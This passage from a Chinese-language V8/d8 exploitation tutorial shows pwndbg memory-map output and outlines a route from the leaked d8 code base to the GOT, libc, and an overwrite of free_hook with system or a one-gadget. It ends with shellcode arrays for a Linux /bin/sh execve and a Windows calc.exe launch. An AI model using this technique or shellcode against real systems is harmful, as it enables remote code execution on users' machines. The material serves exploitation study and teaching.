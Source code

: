```

pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x55cc9e121000     0x55cc9e954000 r--p   833000 0      /path/d8
    0x55cc9e954000     0x55cc9f793000 r-xp   e3f000 832000 /path/d8
    0x55cc9f793000     0x55cc9f7fb000 r--p    68000 1670000 /path/d8
    0x55cc9f7fb000     0x55cc9f80c000 rw-p    11000 16d7000 /path/d8
```

可以注意到，顺着这个地址链查下去，最终能找到地址 0x55cc9e9ba260 ，该地址对应了 d8 的二进制程序中的代码地址，而整个 d8 在内存中是连续的，因此可以找到其 GOT 表，然后再从中得到 libc 的机制，最后即可覆盖 free\_hook 或 free 的 got 表为 system 或 one gadget

## 尾声

最后补充一下可用的 shellcode：

```javascript
//Linux x64
var shellcode = [  
  0x2fbb485299583b6an,  
  0x5368732f6e69622fn,  
  0x050f5e5457525f54n  
];  

//Windows 计算器
var shellcode = [  
	0xc0e8f0e48348fcn,  
	0x5152504151410000n,  
	0x528b4865d2314856n,  
	0x528b4818528b4860n,  
	0xb70f4850728b4820n,  
	0xc03148c9314d4a4an,  
	0x41202c027c613cacn,  
	0xede2c101410dc9c1n,  
	0x8b20528b48514152n,  
	0x88808bd001483c42n,  
	0x6774c08548000000n,  
	0x4418488b50d00148n,  
	0x56e3d0014920408bn,  
	0x4888348b41c9ff48n,  
	0xc03148c9314dd601n,  
	0xc101410dc9c141acn,  
	0x244c034cf175e038n,  
	0x4458d875d1394508n,  
	0x4166d0014924408bn,  
	0x491c408b44480c8bn,  
	0x14888048b41d001n,  
	0x5a595e58415841d0n,  
	0x83485a4159415841n,  
	0x4158e0ff524120ecn,  
	0xff57e9128b485a59n,  
	0x1ba485dffffn,  
	0x8d8d480000000000n,  
	0x8b31ba4100000101n,  
	0xa2b5f0bbd5ff876fn,  
	0xff9dbd95a6ba4156n,  
	0x7c063c28c48348d5n,  
	0x47bb0575e0fb800an,  
	0x894159006a6f7213n,  
	0x2e636c6163d5ffdan,  
	0x657865n,  
];
```

